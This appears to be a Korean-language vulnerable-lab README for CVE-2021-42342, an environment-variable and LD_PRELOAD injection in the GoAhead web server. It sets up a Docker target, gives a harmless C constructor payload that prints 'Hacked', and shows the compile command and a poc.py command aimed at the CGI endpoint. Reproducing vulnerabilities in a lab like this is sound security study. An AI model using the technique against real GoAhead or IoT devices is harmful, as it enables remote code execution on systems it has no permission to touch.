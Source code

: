 # GoAhead Web Server Environment Variables Injection and 'LD_PRELOAD' Remote Code Execution (CVE-2021-42342)

GoAhead 4.x 및 5.x에서 5.1.5 이전 버전에서 발견된 문제가 있습니다.파일 업로드 필터에서 사용자 양식 변수가 CGI 접두사 없이 CGI 스크립트로 전달될 수 있습니다. 이는 신뢰할 수 없는 환경 변수를 취약한 CGI 스크립트로 터널링할 수 있게 합니다.
공격자는 이 기능을 사용하여 멀티파트 양식에 공유 라이브러리 페이로드를 업로드하고 LD_PRELOAD 환경 변수를 탈취하여 임의의 코드를 실행할 수 있습니다.

이 취약성은 CVE-2017-17562의 패치 우회입니다.

References:

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## 취약 환경구성

다음 명령어로 GoAhead 5.1.4를 실행 

```
docker compose up -d
```
### your-ip는 ifconfig를 통해서 확인한 본인의 ip주소를 입력하면 된다.
그러면 url에  `http://your-ip:8080`를 입력하면 Congratulations! The server is up and running. 을 확인할 수 있다.
 CGI scripts는 `http://your-ip:8080/cgi-bin/index`.다음 url에서 확인할 수 있다.

## Exploit

우선,이 hijack code를 동적공유라이브러리에 컴파일한다.:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

> 명심해야 할 건, GoAhead는 거의 대부분의 IoT 디바이스에서 실행되는 간단한 임베디드 웹 서버이므로, 동적 공유 라이브러리의 형식은 타겟 서버의 아키텍처에 따라 다르다. 비록, vulhub는 당신에게 간단한 예제를 보여주지만, real world에서는 exploit을 컴파일하는 것은 이 메뉴얼만큼 쉽지는 않다.

x86/64 환경에서 컴파일 :

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```


우리는 [this script](poc.py) 로 취약점을 확인해볼 것이다.

```
python3 poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```
만약 이 부분에서 "Example"이 나오지 않고 오류가 나온다면 스크립트의 파일 권한이 없어서 그럴 수 있기 때문에 docker에서 index에 실행권한이 있는지 확인하고, 없다면 실행권한을 부여해야 한다.


hijacking이 성공적으로 됐다.:

![](1.png)
